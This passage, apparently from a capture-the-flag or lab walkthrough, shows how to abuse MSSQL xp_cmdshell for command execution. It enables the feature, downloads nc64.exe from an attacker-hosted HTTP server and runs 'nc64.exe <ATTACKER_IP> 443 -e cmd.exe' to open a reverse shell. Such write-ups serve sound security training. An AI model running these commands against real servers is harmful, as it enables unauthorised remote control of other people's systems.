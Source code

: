 *‌ NOTE:  On MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:*

```
EXEC xp_cmdshell 'net user'; -- priv 
-- Enable xp_cmdshell (if disabled)
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Run system command
EXEC xp_cmdshell 'net user';
```

Let’s get our bearings:  Where are we, and who are we?

`SQL > xp_cmdshell “whoami”`

If you succeeded, you’ll get the user account you’re logged in as.  In this case, it’s sql_svc.

`SQL xp_cmdshell “powershell -c pwd”`

We are in “`C:\Windows\system32`”.

### 🔹 Setting up a reverse shell with nc64.exe
We’ve gained command execution via xp_cmdshell, but typing `xp_cmdshell` before every command is tedious. A reverse shell gives us direct, interactive access — making post-exploitation much easier.

This method involves two main steps:
	- Upload nc64.exe to the target via a simple HTTP server
	- Trigger the binary to connect back to our Netcat listener

🖥️ Step 1: Host nc64.exe on Your Attack Machine
Make sure nc64.exe is in your current directory, then start a Python HTTP server:

`sudo python3 -m http.server 80`

This allows the target machine to download the file.

📡 Step 2: Download nc64.exe from the Target
In your mssqlclient.py shell, run:

```
EXEC xp_cmdshell 'powershell -c "cd C:\Users\sql_svc\Downloads; wget http://<ATTACKER_IP>/nc64.exe -OutFile nc64.exe"';
```

This tells the target to connect to your attack box and download the Netcat binary into the Downloads directory.

🖥️ Step 3: Start the Netcat Listener
Before launching the reverse shell, get ready to receive it:

`sudo nc -lvnp 443`

💥 Step 4: Execute the Reverse Shell
Trigger the connection from the target back to your listener:

`EXEC xp_cmdshell 'C:\Users\sql_svc\Downloads\nc64.exe <ATTACKER_IP> 443 -e cmd.exe';`
